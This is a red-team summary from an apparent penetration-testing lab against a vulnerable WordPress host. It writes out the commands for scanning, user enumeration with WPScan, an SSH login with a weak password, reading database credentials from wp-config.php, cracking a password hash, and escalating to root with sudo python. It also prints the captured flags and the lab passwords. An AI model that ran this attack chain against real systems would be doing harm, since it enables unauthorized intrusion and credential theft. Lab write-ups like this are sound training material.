 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Netdiscover results identify the IP addresses of Targets on the network:

```bash
  # netdiscover -r 192.168.1.90
```

![nmap output](Images/netdiscover.png)

Nmap scan results for each machine reveal the below services and OS details:

```bash
  # nmap -sV 192.168.1.110
```

![nmap output](Images/nmap.png)

This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22/tcp: SSH
  - Port 80/tcp: HTTP
  - Port 111/tcp: RPCbind
  - Port 139/tcp: netbios-ssn
  - Port 445/tcp: netbios-ssn

The following vulnerabilities were identified on each target:
- Target 1
  - User Enumeration (WordPress site)
  - Weak User Password
  - Unsalted User Password Hash (WordPress database)
  - Misconfiguration of User Privileges/Privilege Escalation

---

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:

#### Flag 1

  - `flag1.txt`: b9bbcb33e11b80be759c4e844862482d
    - **Exploit Used**:
      - Enumerated WordPress site Users with WPScan to obtain username `michael`, used SSH to get user shell.
    - **Command**: `wpscan --url 192.168.1.110/wordpress --enumerate u`

```bash
  # wpscan --url 192.168.1.110/wordpress --enumerate u
```

![wpscan output](Images/wpscan1.png)
![wpscan output](Images/wpscan2.png)

  - Used SSH to gain a user shell.
    - **Command**: `ssh michael@192.168.1.110`
    - **Password**: `michael`

```bash
  # ssh michael@192.168.1.110
```

![ssh output](Images/ssh1.png)

  - Searched directories for for service.html to find Flag 1.
    - **Command**: `cat var/www/html/service.html`

```bash
  # cat var/www/html/service.html
```

  - Screenshot of Flag 1:

![flag 1](Images/flag1.png)

---

#### Flag 2

  - `flag2.txt`: fc3fd58dcdad9ab23faca6e9a36e581c
    - **Exploit Used**
      - Enumerated WordPress site Users with WPScan to obtain username `michael`, used SSH to get user shell.
    - **Command**: `cat var/www/flag2.txt`

```bash
  # cat var/www/flag2.txt
```

  - Screenshot of Flag 2:

![flag 2](Images/flag2.png)

---

#### Flag 3

  - `flag3.txt`: afc01ab56b50591e7dccf93122770cd2
    - **Exploit Used**
      - Continued using user shell to find the MySQL database password, logged into MySQL database and found Flag 3 in wp_posts table.

  - Finding the MySQL database password:
    - **Command**: `cd /var/www/html/wordpress/`
    - **Command**: `nano wp-config.php`

```bash
  # nano wp-config.php
```

![MySQL DB password](Images/MySQL.png)

  - Used the credentials to log into MySQL and dump WordPress user password hashes.
    - **DB_NAME**:	`wordpress`
    - **DB_USER**:	`root`
    - **DB_PASSWORD**:	`R@v3nSecurity`
    - **Command**: `mysql -u root -pR@v3nSecurity -D wordpress`

```bash
  # mysql -u root -pR@v3nSecurity -D wordpress
```

![MySQL DB Login](Images/MySQL_login.png)

  - Searched MySQL database for Flag 3 and WordPress user password hashes.
    - Flag 3 found in `wp_posts`.
    - Password hashes found in `wp_users`.
    - **Command**: `show tables;`
    - **Command**: `select * from wp_posts;`
    - **Command**: `select * from wp_users;`

  - Screenshot of Flag 3:

![flag 3](Images/flag3.png)

  - Screenshot of WordPress user password hashes:

![password hashes](Images/pwdhashes.png)

---

#### Flag 4

  - `flag4.txt`: 715dea6c055b9fe3337544932f2941ce
    - **Exploit Used**
      - Used john to crack the password hash obtained from MySQL database, secured new user shell as Steven, escalated to root.

  - Cracking the password hash with john.
    - Copied steven's password hash from MySQL, pasted into `~/Desktop/hash.txt`, and cracked with john to discover Steven’s password is `pink84`.
    - **Command**: `cd ~/Desktop`
    - **Command**: `john hash.txt`

![john output](Images/john.png)

  - Secure a user shell as the user whose password you cracked.
    - **Command**: `ssh steven@192.168.1.110`
    - **Password**: `pink84`

![ssh output](Images/ssh2.png)

  - Escalating to root:
    - **Command**: `sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’`

```bash
  # sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’
```

  - Searched root directory for Flag 4.
    - **Command**: `cd /root/`
    - **Command**: `ls`
    - **Command**: `cat flag4.txt`

  - Screenshot of Flag 4:

![ssh output](Images/flag4.png)

---